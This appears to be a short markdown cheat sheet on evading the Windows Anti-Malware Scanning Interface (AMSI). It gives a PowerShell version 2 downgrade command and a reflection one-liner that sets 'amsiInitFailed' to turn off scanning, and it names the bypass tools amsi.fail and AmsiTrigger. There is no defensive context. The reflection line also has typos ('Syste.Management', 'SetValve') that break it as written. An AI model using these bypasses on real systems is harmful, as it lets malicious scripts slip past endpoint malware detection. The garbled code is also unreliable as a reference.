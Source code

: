 # Anti-Malware Scanning Interface (AMSI) Evasion

## Powershell Downgrade

#### powershell -Version 2

## Powershell Reflection

#### [Ref].Assembly.GetType('Syste.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValve($null,$true)

## Automation

### Tools: amsi.fail, AmsiTrigger
